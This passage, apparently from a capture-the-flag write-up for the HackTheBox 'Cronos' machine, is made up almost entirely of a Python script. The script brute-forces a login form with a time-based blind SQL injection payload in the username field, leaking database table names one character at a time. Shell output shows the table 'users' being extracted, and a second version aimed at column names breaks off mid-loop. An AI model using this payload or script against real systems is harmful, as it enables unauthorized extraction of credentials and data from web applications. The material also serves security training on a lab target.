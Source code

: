 ```python
    for table in range(0, 5):
        for position in range(1, 10):
            for character in characters:
                post_data = {
                    'username': "admin' and if(substr((select table_name from information_schema.tables where table_schema='admin' limit %d,1),%d,1)='%c',sleep(5),1)-- -" % (table, position, character),
                    'password': 'admin'
                }

#                p1.status(post_data['username'])
                time_start = time.time()
                r = requests.post(admin_url, data=post_data)
                time_end = time.time()

                if time_end - time_start > 5:
                    tables += character
                    p2.status(tables)
                    break
        tables += ", "

if __name__ == "__main__":

    makeRequest()
```

```bash
./bin/python3 sqli.py
# [◒] Tables Leak: users

nvim sqli.py
```

> **sqli.py**:

```python
#!/usr/bin/python3

from pwn import *
import signal, time, requests, string, pdb

def def_handler(sig, frame):
    print("\n\n[!] Exiting ...\n")
    sys.exit(1)

# Ctrl+c
signal.signal(signal.SIGINT, def_handler)

# Global Variables
admin_url = "http://admin.cronos.htb/index.php"
characters = string.ascii_lowercase

def makeRequest():

    p1 = log.progress("SQLi")
    p1.status("Initiating brute force attack")

    p2 = log.progress("Columns Leakage")

    time.sleep(2)

    columns = ""
    for column in range(0, 5):
        for position in range(1, 10):
            for character in characters:
```